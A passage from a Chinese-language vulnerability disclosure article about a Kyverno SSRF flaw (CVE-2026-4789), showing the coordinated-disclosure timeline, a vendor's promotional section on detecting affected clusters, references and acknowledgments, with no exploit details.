leaf="">2026-02-06</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">提交至 CERT/CC</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-02-09</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">CERT/CC 立案，案件编号 VU<a class="wx_topic_link" topic-id="mnvrqowh-95axok" style="color: #576B95 !important;" data-topic="1" data-recommend="">#655822</a></span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-03-24</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">分配 CVE 编号 CVE-2026-4789</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-03-26</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">提交缓解补丁 PR <a class="wx_topic_link" topic-id="mnvrqowi-gg30vo" style="color: #576B95 !important;" data-topic="1" data-recommend="">#15729</a></span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-03-26</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">维护者在 PR 中展开讨论；提供了威胁模型的澄清说明</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-03-30</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">协调披露（</span><span style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;color: rgba(10, 142, 171, 1);"><span leaf="">VU<a class="wx_topic_link" topic-id="mnvrqowi-2tskct" style="color: #576B95 !important;" data-topic="1" data-recommend="">#655822</a></span><sup><span leaf="">[6]</span></sup></span><span leaf=""> 公开发布）</span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-04-05</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">JimBugwadia 关闭 PR <a class="wx_topic_link" topic-id="mnvrqowi-kfpee1" style="color: #576B95 !important;" data-topic="1" data-recommend="">#15729</a>，并创建维护者修复 PR <a class="wx_topic_link" topic-id="mnvrqowi-ntampc" style="color: #576B95 !important;" data-topic="1" data-recommend="">#15789</a></span></section></td></tr><tr><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">2026-04-06</span></section></td><td style="text-align: left;line-height: 1.75;font-family: -apple-system-font,BlinkMacSystemFont, Helvetica Neue, PingFang SC, Hiragino Sans GB , Microsoft YaHei UI , Microsoft YaHei ,Arial,sans-serif;font-size: 14px;border: 1px solid #dfdfdf;padding: 0.5em 1em;color: #3f3f3f;word-break: keep-all;"><section><span leaf="">PR <a class="wx_topic_link" topic-id="mnvrqowi-4vqfgi" style="color: #576B95 !important;" data-topic="1" data-recommend="">#15789</a> 由 Fjogeleit 合并至主分支</span></section></td></tr></tbody></table>  


## 十一、Orca Security 如何提供帮助  
  
Orca 的无代理云安全平台可扫描 Kubernetes 集群，并识别出运行受影响的 Kyverno 版本（>= 1.16.0）的部署。结合 Orca 的攻击路径分析功能，安全团队可根据实际暴露面确定修复优先级：哪些集群面向互联网、哪些集群缺乏限制 Kyverno 出站流量的网络策略，以及哪些集群运行在未阻断元数据端点访问的云节点上。这些上下文信息可将一个通用的 CVE 告警转化为可操作的、基于实际风险的评估。  
  
  
## 参考资料  
- • CVE-2026-4789（NVD）：https://nvd.nist.gov/vuln/detail/CVE-2026-4789  
  
- • VU[#655822](https://kb.cert.org/vuls/id/655822)  
（CERT/CC）：https://kb.cert.org/vuls/id/655822  
  
- • GHSA-qqrv-2hch-83q4（公开安全通告）：https://github.com/advisories/GHSA-qqrv-2hch-83q4  
  
- • GHSA-rggm-jjmc-3394（向维护者提交的原始私有报告）  
  
- • 缓解补丁 PR：https://github.com/kyverno/kyverno/pull/15729 （已关闭）  
  
- • 维护者修复 PR：https://github.com/kyverno/kyverno/pull/15789 （已合并至主分支）  
  
- • 相关的历史 Kyverno SSRF 修复（涉及不同代码路径）：GHSA-8p9x-46gm-qfx2、GHSA-459x-q9hg-4gpq  
  
## 致谢  
- • **漏洞发现者：**  
 Igor Stepansky，Orca Security 研究团队  
  
- • **协调方：**  
 CERT/CC（VU[#655822](https://kb.cert.org/vuls/id/655822)  
）  
  
- • **VU 通告作者：**  
 Dr. Elke Drennan, CISSP  
  
#### 引用链接  
  
[1]  
 《Kyverno SSRF: Breaking Kubernetes Namespace Isolation (CVE-2026-4789)》: https://orca.security/resources/blog/kyverno-ssrf-vulnerability-cve-2026-4789/  
[2]  
 NVD 评估向量显示为 PR:N（无需任何权限）: https://nvd.nist.gov/vuln/detail/CVE-2026-4789  
[3]  
 Kubernetes 原生策略引擎: https://orca.security/glossary/kubernetes-security/  
[4]  
 `kyverno` Namespace: https://orca.security/resources/open-source-projects/  
[5]  
 此漏洞为何属于严重级别: https://orca.security/resources/blog/what-is-cnapp/  
[6]  
 VU[#655822](https://kb.cert.org/vuls/id/655822)  
: https://kb.cert.org/vuls/id/655822  
  
   
  
  
  
  
  
  
**交流群**  
  
  
  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原始披露 URL 尚未确认，现有链接按来源追溯区分别标注）
